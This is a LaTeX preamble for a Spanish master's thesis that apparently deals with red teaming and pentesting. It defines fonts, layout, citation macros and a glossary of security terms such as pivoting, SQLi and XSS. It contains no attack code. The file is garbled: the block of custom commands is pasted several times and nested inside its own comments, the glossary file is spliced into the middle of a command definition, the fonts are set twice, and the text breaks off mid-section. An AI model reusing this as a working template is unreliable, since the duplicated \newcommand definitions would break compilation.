\documentclass[12pt]{article}

% =========================================================
% IDIOMA Y TIPOGRAFÍA
% =========================================================
\usepackage[T1]{fontenc}
\usepackage[spanish, es-tabla]{babel}
\usepackage{fontspec}

\setmainfont{TimesNewRoman}[
    Path           = fonts/,
    UprightFont    = *,
    BoldFont       = *-Bold,
    ItalicFont     = *-Italic,
    BoldItalicFont = *-BoldItalic,
    Extension      = .ttf
]

\setmonofont{Arial}[
    Path           = fonts/,
    UprightFont    = *,
    BoldFont       = *-Bold,
    ItalicFont     = *-Italic,
    BoldItalicFont = *-BoldItalic,
    Extension      = .ttf
]

\newfontfamily\calibribody{Calibri}[
    Path           = fonts/,
    UprightFont    = *,
    BoldFont       = *-Bold,
    ItalicFont     = *-Italic,
    BoldItalicFont = *-BoldItalic,
    Extension      = .ttf
]

\setmainfont{Times New Roman}
\setmonofont{Arial}

% =========================================================
% MAQUETACIÓN GENERAL
% =========================================================
\usepackage{geometry}
\geometry{
  a4paper,
  left=3cm,
  right=3cm,
  top=3.5cm,
  bottom=3cm,
  headheight=18pt,
  headsep=1.3cm,
  footskip=2.5cm
}

%\usepackage{parskip}
\usepackage{setspace}
\onehalfspacing
\setlength{\parskip}{8pt} %Espaciado entre párrafos
\setlength{\parindent}{0cm} %sangria de párrafo

% =========================================================
% PAQUETES GENERALES
% =========================================================
\usepackage{amsmath}
\usepackage{array}
\usepackage{booktabs}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{fancyhdr}
\usepackage{fancyvrb}
\usepackage{float}
\usepackage{framed}
\usepackage{graphicx}
\usepackage[acronym]{glossaries}
\usepackage[]{hyperref}
\usepackage{listings}
\usepackage{ragged2e}
\usepackage{subcaption}
\usepackage{svg}
\usepackage{tikz}
\usepackage{titlesec}
\usepackage[normalem]{ulem}
\usepackage[table,xcdraw]{xcolor}
\usepackage{xcolor}
\usepackage{titletoc}
\usepackage{xurl}
\usepackage{listings}
\usepackage[nottoc, notlot, notlof]{tocbibind}
\usepackage{colortbl}
\usepackage[most]{tcolorbox}
%\usepackage{minted}
\tcbuselibrary{listings,skins,breakable}

\newcommand{\Romanref}[1]{\uppercase\expandafter{\Romannumeral\getrefnumber{#1}}}


\usetikzlibrary{positioning, arrows.meta, shapes.geometric}
\usetikzlibrary{calc}

\makeglossaries
\setlength{\arrayrulewidth}{0.1pt}

% =========================================================
% COLORES E HIPERVÍNCULOS
% =========================================================
\definecolor{AzulTFG}{RGB}{0, 148, 224}
\definecolor{blueColor}{RGB}{69, 85, 107}
\definecolor{bluelink}{RGB}{5, 99, 193}

\hypersetup{
  colorlinks=true,
  allcolors=black,
  linktoc=all
}


% =========================================================
% FORMATO DE CAPTIONS E ÍNDICES
% =========================================================
\captionsetup{
  labelfont={color=blueColor},
  textfont=normalfont,
  labelsep=space
}

\addto\captionsspanish{%
  \renewcommand{\contentsname}{Índice de contenidos}%
  \renewcommand{\listfigurename}{Índice de figuras}%
  \renewcommand{\listtablename}{Índice de tablas}%
  \renewcommand{\refname}{Bibliografía}%
}

% =========================================================
% BIBLIOGRAFÍA
% =========================================================
\usepackage[
  backend=biber,
  style=ieee,
  sorting=none,
  autolang=other,
  bibencoding=utf8,
  url=true,
  doi=true,
  isbn=true
]{biblatex}

\addbibresource{Bibliografia/bibliografia.bib}

\DefineBibliographyStrings{spanish}{%
  bibliography = {Bibliografía},
}

% =========================================================
% LISTINGS
% =========================================================
\input{Formatos/listings}

% =========================================================
% COMANDOS PERSONALIZADOS
% =========================================================

% =========================================================
% comandos.tex
% Colección de comandos personalizados organizados por tipo
% =========================================================
%
% Este fichero define atajos para:
% 1) Citas y notas al pie
% 2) Cabeceras
% 3) Enlaces y pies de figura
% 4) Etiquetas visuales de respuesta
% 5) Ajustes globales
% 6) Índices y glosario
%
% Recomendación:
% Mantén este archivo cargado en el preámbulo con:
% % =========================================================
% comandos.tex
% Colección de comandos personalizados organizados por tipo
% =========================================================
%
% Este fichero define atajos para:
% 1) Citas y notas al pie
% 2) Cabeceras
% 3) Enlaces y pies de figura
% 4) Etiquetas visuales de respuesta
% 5) Ajustes globales
% 6) Índices y glosario
%
% Recomendación:
% Mantén este archivo cargado en el preámbulo con:
% % =========================================================
% comandos.tex
% Colección de comandos personalizados organizados por tipo
% =========================================================
%
% Este fichero define atajos para:
% 1) Citas y notas al pie
% 2) Cabeceras
% 3) Enlaces y pies de figura
% 4) Etiquetas visuales de respuesta
% 5) Ajustes globales
% 6) Índices y glosario
%
% Recomendación:
% Mantén este archivo cargado en el preámbulo con:
% \input{comandos}
%
% ============================================================
% 1. Citas personalizadas en formato numérico [n]
% ============================================================
%
% Recomendado en el preámbulo:
% \usepackage[backend=biber,style=numeric,sorting=none]{biblatex}
%
% Estos comandos muestran la cita en el texto como [n], en lugar
% de superíndice, y colocan la referencia completa en nota al pie.
% Además, se añaden versiones sin nota al pie para citar solo como [n].
% ============================================================


% \bracketfootnote{contenido}
% Inserta una marca numérica [n] en el texto y añade el contenido
% correspondiente como nota al pie, también identificada con [n].
%
% Ejemplo:
% Texto citado\bracketfootnote{Referencia completa.}
\newcommand{\bracketfootnote}[1]{%
  \refstepcounter{footnote}%
  \textnormal{[\thefootnote]}%
  \begingroup
    \renewcommand{\thefootnote}{[\arabic{footnote}]}%
    \footnotetext{#1}%
  \endgroup
}


% \footcitepage{texto citado}{clave_biblatex}{pagina}
% Muestra un fragmento citado entre comillas y añade una referencia
% completa en nota al pie indicando la página concreta.
%
% Ejemplo:
% \footcitepage{La seguridad es esencial}{nist2024}{15}
%
% Resultado:
% “La seguridad es esencial” [1]
\newcommand{\footcitepage}[3]{%
  ``#1''\bracketfootnote{\fullcite{#2}, p.~#3}%
}


% \footbibliographypage{clave_biblatex}{pagina}
% Inserta una referencia completa en nota al pie indicando la página,
% sin mostrar texto citado en el cuerpo del documento.
%
% Ejemplo:
% La gestión del riesgo debe ser continua\footbibliographypage{iso27001}{12}.
\newcommand{\footbibliographypage}[2]{%
  \bracketfootnote{\fullcite{#1}, p.~#2}%
}


% \footwebfragment{clave_biblatex}{fragmento}
% Cita una fuente web en nota al pie e indica el fragmento concreto
% utilizado de esa fuente.
%
% Ejemplo:
% OWASP recomienda validar las entradas\footwebfragment{owasp2024}{Input validation}.
\newcommand{\footwebfragment}[2]{%
  \bracketfootnote{\fullcite{#1}. Fragmento: #2}%
}


% \footweb{clave_biblatex}
% Inserta una referencia web completa en nota al pie.
%
% Ejemplo:
% La guía puede consultarse en OWASP\footweb{owasp_top10_2025}.
\newcommand{\footweb}[1]{%
  \bracketfootnote{\fullcite{#1}}%
}


% \footwebcite{texto citado}{clave_biblatex}{fragmento}
% Muestra un texto citado entre comillas y añade en nota al pie
% la fuente web junto con el fragmento relevante.
%
% Ejemplo:
% \footwebcite{La autenticación multifactor reduce riesgos}{cisa2024}{MFA helps prevent unauthorized access}
\newcommand{\footwebcite}[3]{%
  ``#1''\bracketfootnote{\fullcite{#2}. Fragmento: #3}%
}


% \footcitedefinition{termino_o_definicion}{clave_biblatex}{pagina}
% Inserta una definición o término en el texto y añade la referencia
% completa en nota al pie indicando la página concreta.
%
% Ejemplo:
% \footcitedefinition{Confidencialidad}{iso27001}{8}
\newcommand{\footcitedefinition}[3]{%
  #1\bracketfootnote{\fullcite{#2}, p.~#3}%
}


% ============================================================
% Versiones sin nota al pie
% ============================================================

% \numcite{clave_biblatex}
% Inserta únicamente la cita bibliográfica numérica [n] en el texto,
% sin crear nota al pie.
%
% Ejemplo:
% La norma ISO/IEC 27001 establece controles de seguridad \numcite{iso27001}.
\newcommand{\numcite}[1]{%
  \cite{#1}%
}


% \numcitepage{clave_biblatex}{pagina}
% Inserta únicamente la cita numérica con página, sin nota al pie.
%
% Ejemplo:
% La gestión del riesgo debe ser continua \numcitepage{iso27001}{12}.
\newcommand{\numcitepage}[2]{%
  \cite[p.~#2]{#1}%
}


% \numweb{clave_biblatex}
% Alias semántico de \numcite para fuentes web.
%
% Ejemplo:
% OWASP Top 10 clasifica los riesgos principales \numweb{owasp_top10_2025}.
\newcommand{\numweb}[1]{%
  \cite{#1}%
}
% ---------------------------------------------------------
% 2. CABECERAS
% ---------------------------------------------------------
%
% Estos comandos están pensados para usar con fancyhdr.
% Permiten personalizar el contenido de la cabecera.
%
% Posiciones típicas en fancyhdr:
% - L = izquierda
% - C = centro
% - R = derecha
% - E = página par
% - O = página impar
%
% Ejemplos de posiciones:
% - LE, RO, RH, LH, etc.
%

% \nombreCapituloCabecera{posicion}{texto}
% Sirve para poner un texto en cursiva en una posición concreta
% de la cabecera.
%
% Ejemplo:
% \nombreCapituloCabecera{RH}{Capítulo 1}
\newcommand{\nombreCapituloCabecera}[2]{%
  \fancyhead[#1]{\textit{#2}}%
}

% \logocabeceraCEU{posicion}{ruta_imagen}
% Sirve para colocar un logotipo o imagen en la cabecera.
%
% Ejemplo:
% \logocabeceraCEU{LH}{Imagenes/logo-ceu.png}
%
% Nota:
% La altura de la imagen está fijada a 1 cm.
\newcommand{\logocabeceraCEU}[2]{%
  \fancyhead[#1]{\includegraphics[height=1cm]{#2}}%
}

% ---------------------------------------------------------
% 3. ENLACES, FIGURAS Y ELEMENTOS VISUALES
% ---------------------------------------------------------

% \enlace{url}{texto_visible}
% Sirve para crear un hipervínculo con color personalizado y subrayado.
%
% Ejemplo:
% \enlace{https://www.example.com}{Sitio oficial}
%
% Requisitos habituales:
% - hyperref
% - ulem o un paquete que defina \uline
% - color/bluelink definido en el documento
\newcommand{\enlace}[2]{%
  \href{#1}{\color{bluelink}\uline{#2}}%
}

% \captionazul{texto_caption}
% Sirve para crear una caption de figura o tabla con texto en color azul.
%
% Ejemplo:
% \begin{figure}
%   ...
%   \captionazul{Arquitectura general del sistema}
% \end{figure}
%
% Nota:
% También usa el mismo texto para la entrada corta del índice de figuras/tablas.
\newcommand{\captionazul}[1]{%
  \caption[#1]{\textcolor{blueColor}{#1}}%
  \vspace{0.2cm}
}


\newcommand{\subcaptionazul}[1]{%
    \subcaption{\textcolor{blueColor}{#1}}%
    \vspace{0.2cm}%
}

% ---------------------------------------------------------
% 4. ETIQUETAS VISUALES DE RESPUESTA
% ---------------------------------------------------------
%
% Estos comandos imprimen respuestas cortas en color.
% Son útiles en tablas comparativas o matrices de decisión.
%

% \permits
% Muestra “Sí” en verde.
%
% Ejemplo:
% Acceso de administrador: \permits
\newcommand{\permits}{\textcolor{green!60!black}{Sí}}

% \denies
% Muestra “No” en rojo.
%
% Ejemplo:
% Acceso de invitado: \denies
\newcommand{\denies}{\textcolor{red!70!black}{No}}

% ---------------------------------------------------------
% 5. AJUSTES GLOBALES
% ---------------------------------------------------------
%
% Estas líneas modifican comportamientos por defecto de paquetes.
%

% Elimina la línea horizontal de la cabecera definida por fancyhdr.
\renewcommand{\headrulewidth}{0pt}

% Evita que aparezcan números de página junto a las entradas del glosario.
% Suele usarse cuando no interesa mostrar en qué páginas aparece cada término.
\renewcommand*{\glossaryentrynumbers}[1]{}

% ---------------------------------------------------------
% 6. ÍNDICES Y GLOSARIO
% ---------------------------------------------------------
%
% Estos comandos generan índices y glosario con ajustes de espaciado.
%

% \crearIndiceTOC
% Genera el índice general (table of contents).
%
% Ejemplo:
% \crearIndiceTOC
\newcommand{\crearIndiceTOC}{%
    \vspace*{-2.5cm}%
    \tableofcontents%
}

% \crearIndiceTablas
% Genera el índice de tablas.
%
% Ejemplo:
% \crearIndiceTablas
\newcommand{\crearIndiceTablas}{%
    \vspace*{-2.5cm}%
    \listoftables%
}

% \crearIndiceFiguras
% Genera el índice de figuras.
%
% Ejemplo:
% \crearIndiceFiguras
\newcommand{\crearIndiceFiguras}{%
    \vspace*{-2.5cm}%
    \listoffigures%
}

% \crearglosario
% Inserta el glosario de términos, ajusta la cabecera y añade todas
% las entradas del glosario aunque no hayan sido usadas en el texto.
%
% Ejemplo:
% \crearglosario
%
% Nota:
% Este comando asume que existe el fichero:
% Glosario/glosario.tex
\newcommand{\crearglosario}{%
    \vspace*{-1cm}%
    \nombreCapituloCabecera{RH}{Glosario de términos}%

    %\glsaddall
    \vspace*{-2cm}%
    \input{Glosario/glosario}%
}
%
% ============================================================
% 1. Citas personalizadas en formato numérico [n]
% ============================================================
%
% Recomendado en el preámbulo:
% \usepackage[backend=biber,style=numeric,sorting=none]{biblatex}
%
% Estos comandos muestran la cita en el texto como [n], en lugar
% de superíndice, y colocan la referencia completa en nota al pie.
% Además, se añaden versiones sin nota al pie para citar solo como [n].
% ============================================================


% \bracketfootnote{contenido}
% Inserta una marca numérica [n] en el texto y añade el contenido
% correspondiente como nota al pie, también identificada con [n].
%
% Ejemplo:
% Texto citado\bracketfootnote{Referencia completa.}
\newcommand{\bracketfootnote}[1]{%
  \refstepcounter{footnote}%
  \textnormal{[\thefootnote]}%
  \begingroup
    \renewcommand{\thefootnote}{[\arabic{footnote}]}%
    \footnotetext{#1}%
  \endgroup
}


% \footcitepage{texto citado}{clave_biblatex}{pagina}
% Muestra un fragmento citado entre comillas y añade una referencia
% completa en nota al pie indicando la página concreta.
%
% Ejemplo:
% \footcitepage{La seguridad es esencial}{nist2024}{15}
%
% Resultado:
% “La seguridad es esencial” [1]
\newcommand{\footcitepage}[3]{%
  ``#1''\bracketfootnote{\fullcite{#2}, p.~#3}%
}


% \footbibliographypage{clave_biblatex}{pagina}
% Inserta una referencia completa en nota al pie indicando la página,
% sin mostrar texto citado en el cuerpo del documento.
%
% Ejemplo:
% La gestión del riesgo debe ser continua\footbibliographypage{iso27001}{12}.
\newcommand{\footbibliographypage}[2]{%
  \bracketfootnote{\fullcite{#1}, p.~#2}%
}


% \footwebfragment{clave_biblatex}{fragmento}
% Cita una fuente web en nota al pie e indica el fragmento concreto
% utilizado de esa fuente.
%
% Ejemplo:
% OWASP recomienda validar las entradas\footwebfragment{owasp2024}{Input validation}.
\newcommand{\footwebfragment}[2]{%
  \bracketfootnote{\fullcite{#1}. Fragmento: #2}%
}


% \footweb{clave_biblatex}
% Inserta una referencia web completa en nota al pie.
%
% Ejemplo:
% La guía puede consultarse en OWASP\footweb{owasp_top10_2025}.
\newcommand{\footweb}[1]{%
  \bracketfootnote{\fullcite{#1}}%
}


% \footwebcite{texto citado}{clave_biblatex}{fragmento}
% Muestra un texto citado entre comillas y añade en nota al pie
% la fuente web junto con el fragmento relevante.
%
% Ejemplo:
% \footwebcite{La autenticación multifactor reduce riesgos}{cisa2024}{MFA helps prevent unauthorized access}
\newcommand{\footwebcite}[3]{%
  ``#1''\bracketfootnote{\fullcite{#2}. Fragmento: #3}%
}


% \footcitedefinition{termino_o_definicion}{clave_biblatex}{pagina}
% Inserta una definición o término en el texto y añade la referencia
% completa en nota al pie indicando la página concreta.
%
% Ejemplo:
% \footcitedefinition{Confidencialidad}{iso27001}{8}
\newcommand{\footcitedefinition}[3]{%
  #1\bracketfootnote{\fullcite{#2}, p.~#3}%
}


% ============================================================
% Versiones sin nota al pie
% ============================================================

% \numcite{clave_biblatex}
% Inserta únicamente la cita bibliográfica numérica [n] en el texto,
% sin crear nota al pie.
%
% Ejemplo:
% La norma ISO/IEC 27001 establece controles de seguridad \numcite{iso27001}.
\newcommand{\numcite}[1]{%
  \cite{#1}%
}


% \numcitepage{clave_biblatex}{pagina}
% Inserta únicamente la cita numérica con página, sin nota al pie.
%
% Ejemplo:
% La gestión del riesgo debe ser continua \numcitepage{iso27001}{12}.
\newcommand{\numcitepage}[2]{%
  \cite[p.~#2]{#1}%
}


% \numweb{clave_biblatex}
% Alias semántico de \numcite para fuentes web.
%
% Ejemplo:
% OWASP Top 10 clasifica los riesgos principales \numweb{owasp_top10_2025}.
\newcommand{\numweb}[1]{%
  \cite{#1}%
}
% ---------------------------------------------------------
% 2. CABECERAS
% ---------------------------------------------------------
%
% Estos comandos están pensados para usar con fancyhdr.
% Permiten personalizar el contenido de la cabecera.
%
% Posiciones típicas en fancyhdr:
% - L = izquierda
% - C = centro
% - R = derecha
% - E = página par
% - O = página impar
%
% Ejemplos de posiciones:
% - LE, RO, RH, LH, etc.
%

% \nombreCapituloCabecera{posicion}{texto}
% Sirve para poner un texto en cursiva en una posición concreta
% de la cabecera.
%
% Ejemplo:
% \nombreCapituloCabecera{RH}{Capítulo 1}
\newcommand{\nombreCapituloCabecera}[2]{%
  \fancyhead[#1]{\textit{#2}}%
}

% \logocabeceraCEU{posicion}{ruta_imagen}
% Sirve para colocar un logotipo o imagen en la cabecera.
%
% Ejemplo:
% \logocabeceraCEU{LH}{Imagenes/logo-ceu.png}
%
% Nota:
% La altura de la imagen está fijada a 1 cm.
\newcommand{\logocabeceraCEU}[2]{%
  \fancyhead[#1]{\includegraphics[height=1cm]{#2}}%
}

% ---------------------------------------------------------
% 3. ENLACES, FIGURAS Y ELEMENTOS VISUALES
% ---------------------------------------------------------

% \enlace{url}{texto_visible}
% Sirve para crear un hipervínculo con color personalizado y subrayado.
%
% Ejemplo:
% \enlace{https://www.example.com}{Sitio oficial}
%
% Requisitos habituales:
% - hyperref
% - ulem o un paquete que defina \uline
% - color/bluelink definido en el documento
\newcommand{\enlace}[2]{%
  \href{#1}{\color{bluelink}\uline{#2}}%
}

% \captionazul{texto_caption}
% Sirve para crear una caption de figura o tabla con texto en color azul.
%
% Ejemplo:
% \begin{figure}
%   ...
%   \captionazul{Arquitectura general del sistema}
% \end{figure}
%
% Nota:
% También usa el mismo texto para la entrada corta del índice de figuras/tablas.
\newcommand{\captionazul}[1]{%
  \caption[#1]{\textcolor{blueColor}{#1}}%
  \vspace{0.2cm}
}


\newcommand{\subcaptionazul}[1]{%
    \subcaption{\textcolor{blueColor}{#1}}%
    \vspace{0.2cm}%
}

% ---------------------------------------------------------
% 4. ETIQUETAS VISUALES DE RESPUESTA
% ---------------------------------------------------------
%
% Estos comandos imprimen respuestas cortas en color.
% Son útiles en tablas comparativas o matrices de decisión.
%

% \permits
% Muestra “Sí” en verde.
%
% Ejemplo:
% Acceso de administrador: \permits
\newcommand{\permits}{\textcolor{green!60!black}{Sí}}

% \denies
% Muestra “No” en rojo.
%
% Ejemplo:
% Acceso de invitado: \denies
\newcommand{\denies}{\textcolor{red!70!black}{No}}

% ---------------------------------------------------------
% 5. AJUSTES GLOBALES
% ---------------------------------------------------------
%
% Estas líneas modifican comportamientos por defecto de paquetes.
%

% Elimina la línea horizontal de la cabecera definida por fancyhdr.
\renewcommand{\headrulewidth}{0pt}

% Evita que aparezcan números de página junto a las entradas del glosario.
% Suele usarse cuando no interesa mostrar en qué páginas aparece cada término.
\renewcommand*{\glossaryentrynumbers}[1]{}

% ---------------------------------------------------------
% 6. ÍNDICES Y GLOSARIO
% ---------------------------------------------------------
%
% Estos comandos generan índices y glosario con ajustes de espaciado.
%

% \crearIndiceTOC
% Genera el índice general (table of contents).
%
% Ejemplo:
% \crearIndiceTOC
\newcommand{\crearIndiceTOC}{%
    \vspace*{-2.5cm}%
    \tableofcontents%
}

% \crearIndiceTablas
% Genera el índice de tablas.
%
% Ejemplo:
% \crearIndiceTablas
\newcommand{\crearIndiceTablas}{%
    \vspace*{-2.5cm}%
    \listoftables%
}

% \crearIndiceFiguras
% Genera el índice de figuras.
%
% Ejemplo:
% \crearIndiceFiguras
\newcommand{\crearIndiceFiguras}{%
    \vspace*{-2.5cm}%
    \listoffigures%
}

% \crearglosario
% Inserta el glosario de términos, ajusta la cabecera y añade todas
% las entradas del glosario aunque no hayan sido usadas en el texto.
%
% Ejemplo:
% \crearglosario
%
% Nota:
% Este comando asume que existe el fichero:
% Glosario/glosario.tex
\newcommand{\crearglosario}{%
    \vspace*{-1cm}%
    \nombreCapituloCabecera{RH}{Glosario de términos}%

    %\glsaddall
    \vspace*{-2cm}%
    % =========================================================
% glosario.tex
% Definición y generación del glosario y siglas del TFM
% =========================================================
%
% Este fichero contiene:
%   - Definiciones de términos (glosario)
%   - Definiciones de siglas (acrónimos)
%   - Estructura de impresión del glosario en el documento
%
% Se utiliza junto con el paquete:
%   \usepackage[acronym]{glossaries}
%
% ---------------------------------------------------------
% 📌 ¿Cómo usar este fichero?
% ---------------------------------------------------------
%
% 1. Define nuevos términos con:
%
%    \newglossaryentry{clave}{
%        name={Nombre visible},
%        description={Definición del término}
%    }
%
% 2. Define nuevas siglas con:
%
%    \newacronym{clave}{SIGLA}{Nombre completo}
%
% 3. Usa los términos en el documento:
%
%    \gls{clave}        → muestra el término
%
% 4. Usa las siglas:
%
%    \acrshort{clave}   → forma corta (API)
%    \acrlong{clave}    → forma larga (Interfaz de Programación de Aplicaciones)
%
% 5. Genera el glosario automáticamente con:
%
%    \crearglosario
%
% ---------------------------------------------------------
% 📖 Tipos de entradas
% ---------------------------------------------------------
%
% 🔤 Términos (glosario)
%
% Ejemplo:
%   \newglossaryentry{backend}{
%       name={Backend},
%       description={Sistema de servidores y lógica}
%   }
%
% 🔠 Siglas (acrónimos)
%
% Ejemplo:
%   \newacronym{api}{API}{Interfaz de Programación de Aplicaciones}
%
% También puedes definir plural:
%
%   \newacronym[
%     plural=SIGLAS,
%     longplural={Nombre completo en plural}
%   ]{clave}{SIGLA}{Nombre completo}
%
% ---------------------------------------------------------
% ⚙️ Impresión del glosario
% ---------------------------------------------------------
%
% Este fichero incluye dos secciones:
%
% 1. Glosario de siglas
%    - Muestra únicamente acrónimos
%
% 2. Definiciones
%    - Muestra términos definidos con \newglossaryentry
%
% Ambas secciones se insertan mediante:
%
%   \input{Glosario/glosario}
%
% y son llamadas automáticamente desde:
%
%   \crearglosario
%
% ---------------------------------------------------------
% ⚠️ Reglas importantes
% ---------------------------------------------------------
%
% - Cada entrada debe tener una clave única:
%     ❌ backend duplicado
%     ✔ backend, backend_api, backend_sistema
%
% - No usar espacios en las claves:
%     ❌ "base de datos"
%     ✔ base_datos
%
% - Usa nombres descriptivos:
%     ✔ resultset
%     ❌ r1
%
% - Evita repetir definiciones en el texto:
%     usa siempre \gls{}
%
% ---------------------------------------------------------
% 💡 Notas
% ---------------------------------------------------------
%
% - El comando \glsaddall se usa para incluir todos los términos
%   aunque no aparezcan en el texto
%
% - Puedes eliminarlo si solo quieres mostrar términos usados
%
% - El formato visual está controlado por la plantilla
%
% =========================================================

% Ejemplos de entradas de glosario y siglas. Reemplaza o añade las tuyas propias.




% =========================
% Glosario de términos
% =========================

\newglossaryentry{redteam}{
    name={Red Team},
    description={Disciplina de seguridad ofensiva orientada a simular ataques reales para evaluar la capacidad de detección y respuesta de una organización}
}

\newglossaryentry{pentesting}{
    name={Pentesting},
    description={Proceso autorizado de evaluación de la seguridad de un sistema mediante técnicas de ataque controladas}
}

\newglossaryentry{pivoting}{
    name={Pivoting},
    description={Técnica que permite utilizar un sistema comprometido como punto de acceso para alcanzar otros sistemas de una red interna}
}

\newglossaryentry{lateralmovement}{
    name={Movimiento lateral},
    description={Conjunto de técnicas utilizadas por un atacante para desplazarse entre distintos sistemas de una red tras obtener acceso inicial}
}

\newglossaryentry{hostonly}{
    name={Red Host-Only},
    description={Tipo de red virtual aislada que permite la comunicación entre máquinas virtuales y el equipo anfitrión sin exponerlas a redes externas}
}

\newglossaryentry{snapshot}{
    name={Snapshot},
    description={Captura instantánea del estado completo de una máquina virtual que permite restaurarla posteriormente}
}


% =========================
% Glosario de siglas
% =========================

\newacronym{owasp}{OWASP}{Open Worldwide Application Security Project}

\newacronym{ad}{AD}{Active Directory}

\newacronym{vm}{VM}{Máquina Virtual}

\newacronym{dns}{DNS}{Domain Name System}

\newacronym{smb}{SMB}{Server Message Block}

\newacronym{winrm}{WinRM}{Windows Remote Management}

\newacronym{http}{HTTP}{HyperText Transfer Protocol}

\newacronym{https}{HTTPS}{HyperText Transfer Protocol Secure}

\newacronym{php}{PHP}{PHP Hypertext Preprocessor}

\newacronym{sql}{SQL}{Structured Query Language}

\newacronym{mysql}{MySQL}{My Structured Query Language}

\newacronym{apache}{Apache}{Apache HTTP Server}

\newacronym{ssh}{SSH}{Secure Shell}

\newacronym{nat}{NAT}{Network Address Translation}

\newacronym{lan}{LAN}{Local Area Network}

\newacronym{ip}{IP}{Internet Protocol}

\newacronym{cpu}{CPU}{Central Processing Unit}

\newacronym{ram}{RAM}{Random Access Memory}

\newacronym{xfce}{XFCE}{XForms Common Environment}

\newacronym{mitre}{MITRE ATT\&CK}{Adversarial Tactics, Techniques and Common Knowledge}

\newacronym{sqli}{SQLi}{SQL Injection}

\newacronym{xss}{XSS}{Cross-Site Scripting}

\newacronym{dvwa}{DVWA}{Damn Vulnerable Web Application}

\newacronym{cve}{CVE}{Common Vulnerabilities and Exposures}

\newacronym{cwe}{CWE}{Common Weakness Enumeration}

\newacronym{git}{Git}{Sistema de control de versiones distribuido}

\newacronym{github}{GitHub}{Plataforma de alojamiento y gestión de repositorios Git}

\newacronym{api}{API}{Interfaz de Programación de Aplicaciones}


% =========================
% Impresión del glosario
% =========================

\glsaddall

\section*{Glosario de siglas}
\label{sec:glosario-siglas}
\vspace{-1.3cm}

\printglossary[type=\acronymtype, title={}, toctitle={}]

\section*{Definiciones}
\label{sec:glosario-terminos}
\vspace{-1.3cm}

\printglossary[title={}, toctitle={}]
%
}
%
% ============================================================
% 1. Citas personalizadas en formato numérico [n]
% ============================================================
%
% Recomendado en el preámbulo:
% \usepackage[backend=biber,style=numeric,sorting=none]{biblatex}
%
% Estos comandos muestran la cita en el texto como [n], en lugar
% de superíndice, y colocan la referencia completa en nota al pie.
% Además, se añaden versiones sin nota al pie para citar solo como [n].
% ============================================================


% \bracketfootnote{contenido}
% Inserta una marca numérica [n] en el texto y añade el contenido
% correspondiente como nota al pie, también identificada con [n].
%
% Ejemplo:
% Texto citado\bracketfootnote{Referencia completa.}
\newcommand{\bracketfootnote}[1]{%
  \refstepcounter{footnote}%
  \textnormal{[\thefootnote]}%
  \begingroup
    \renewcommand{\thefootnote}{[\arabic{footnote}]}%
    \footnotetext{#1}%
  \endgroup
}


% \footcitepage{texto citado}{clave_biblatex}{pagina}
% Muestra un fragmento citado entre comillas y añade una referencia
% completa en nota al pie indicando la página concreta.
%
% Ejemplo:
% \footcitepage{La seguridad es esencial}{nist2024}{15}
%
% Resultado:
% “La seguridad es esencial” [1]
\newcommand{\footcitepage}[3]{%
  ``#1''\bracketfootnote{\fullcite{#2}, p.~#3}%
}


% \footbibliographypage{clave_biblatex}{pagina}
% Inserta una referencia completa en nota al pie indicando la página,
% sin mostrar texto citado en el cuerpo del documento.
%
% Ejemplo:
% La gestión del riesgo debe ser continua\footbibliographypage{iso27001}{12}.
\newcommand{\footbibliographypage}[2]{%
  \bracketfootnote{\fullcite{#1}, p.~#2}%
}


% \footwebfragment{clave_biblatex}{fragmento}
% Cita una fuente web en nota al pie e indica el fragmento concreto
% utilizado de esa fuente.
%
% Ejemplo:
% OWASP recomienda validar las entradas\footwebfragment{owasp2024}{Input validation}.
\newcommand{\footwebfragment}[2]{%
  \bracketfootnote{\fullcite{#1}. Fragmento: #2}%
}


% \footweb{clave_biblatex}
% Inserta una referencia web completa en nota al pie.
%
% Ejemplo:
% La guía puede consultarse en OWASP\footweb{owasp_top10_2025}.
\newcommand{\footweb}[1]{%
  \bracketfootnote{\fullcite{#1}}%
}


% \footwebcite{texto citado}{clave_biblatex}{fragmento}
% Muestra un texto citado entre comillas y añade en nota al pie
% la fuente web junto con el fragmento relevante.
%
% Ejemplo:
% \footwebcite{La autenticación multifactor reduce riesgos}{cisa2024}{MFA helps prevent unauthorized access}
\newcommand{\footwebcite}[3]{%
  ``#1''\bracketfootnote{\fullcite{#2}. Fragmento: #3}%
}


% \footcitedefinition{termino_o_definicion}{clave_biblatex}{pagina}
% Inserta una definición o término en el texto y añade la referencia
% completa en nota al pie indicando la página concreta.
%
% Ejemplo:
% \footcitedefinition{Confidencialidad}{iso27001}{8}
\newcommand{\footcitedefinition}[3]{%
  #1\bracketfootnote{\fullcite{#2}, p.~#3}%
}


% ============================================================
% Versiones sin nota al pie
% ============================================================

% \numcite{clave_biblatex}
% Inserta únicamente la cita bibliográfica numérica [n] en el texto,
% sin crear nota al pie.
%
% Ejemplo:
% La norma ISO/IEC 27001 establece controles de seguridad \numcite{iso27001}.
\newcommand{\numcite}[1]{%
  \cite{#1}%
}


% \numcitepage{clave_biblatex}{pagina}
% Inserta únicamente la cita numérica con página, sin nota al pie.
%
% Ejemplo:
% La gestión del riesgo debe ser continua \numcitepage{iso27001}{12}.
\newcommand{\numcitepage}[2]{%
  \cite[p.~#2]{#1}%
}


% \numweb{clave_biblatex}
% Alias semántico de \numcite para fuentes web.
%
% Ejemplo:
% OWASP Top 10 clasifica los riesgos principales \numweb{owasp_top10_2025}.
\newcommand{\numweb}[1]{%
  \cite{#1}%
}
% ---------------------------------------------------------
% 2. CABECERAS
% ---------------------------------------------------------
%
% Estos comandos están pensados para usar con fancyhdr.
% Permiten personalizar el contenido de la cabecera.
%
% Posiciones típicas en fancyhdr:
% - L = izquierda
% - C = centro
% - R = derecha
% - E = página par
% - O = página impar
%
% Ejemplos de posiciones:
% - LE, RO, RH, LH, etc.
%

% \nombreCapituloCabecera{posicion}{texto}
% Sirve para poner un texto en cursiva en una posición concreta
% de la cabecera.
%
% Ejemplo:
% \nombreCapituloCabecera{RH}{Capítulo 1}
\newcommand{\nombreCapituloCabecera}[2]{%
  \fancyhead[#1]{\textit{#2}}%
}

% \logocabeceraCEU{posicion}{ruta_imagen}
% Sirve para colocar un logotipo o imagen en la cabecera.
%
% Ejemplo:
% \logocabeceraCEU{LH}{Imagenes/logo-ceu.png}
%
% Nota:
% La altura de la imagen está fijada a 1 cm.
\newcommand{\logocabeceraCEU}[2]{%
  \fancyhead[#1]{\includegraphics[height=1cm]{#2}}%
}

% ---------------------------------------------------------
% 3. ENLACES, FIGURAS Y ELEMENTOS VISUALES
% ---------------------------------------------------------

